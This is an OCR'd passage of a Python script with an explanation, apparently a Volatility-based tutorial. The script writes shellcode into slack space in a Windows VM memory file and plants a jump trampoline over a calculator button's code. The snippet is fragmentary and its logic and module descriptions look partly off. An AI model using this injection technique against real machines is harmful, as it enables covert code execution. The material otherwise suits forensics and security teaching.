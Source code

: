 ```python
                        fd.write(sc.decode())
                        fd.flush()
                        
                        # create our trampoline
                        tramp = "\xbb%s" % struct.pack("<L", page[0] + offset)
                        tramp += "\xff\xe3"

                        if trampoline_offset is not None:
                            break
                    except:
                        pass
                        
                    # check for our target code location
                    if page[0] <= equals_button < ((page[0] + page[1]) - 7):
                        
                        # calculate virtual offset
                        v_offset = equals_button - page[0]
                        
                        # calculate physical offset
                        trampoline_offset = physical + v_offset
                        
                        print("[*] Found our trampoline target at: 0x%08x" % (
                            trampoline_offset))
                        if slack_space is not None:
                            break
            
            print("[*] Writing trampoline...")
            
            with open(memory_file, "r+") as fd:
                fd.seek(trampoline_offset)
                fd.write(tramp)
                fd.close()
                
            print("[*] Done injecting the code")
```

### Key Components:

1. **Imports**:
   - The script imports various Volatility 3 modules (`taskmods`, `conf`, `registry`, `addrspace`, etc.) to work with memory dumps, find processes, and manipulate the virtual address space.

2. **Shellcode**:
   - **`cmeasure.bin`**: The shellcode is read from a file named `cmeasure.bin`. This shellcode is injected into the memory dump at a location that is found to be unused.

3. **Memory File**:
   - **`memory_file = "Win10X64.vmem"`**: This is the path to the memory dump (a `.vmem` file). The script expects the memory file to be in the same directory or a path that is provided.

4. **Slack Space**:
   - The script attempts to find "slack space" in the memory dump. Slack space is unused memory within allocated regions that can be overwritten with custom code.
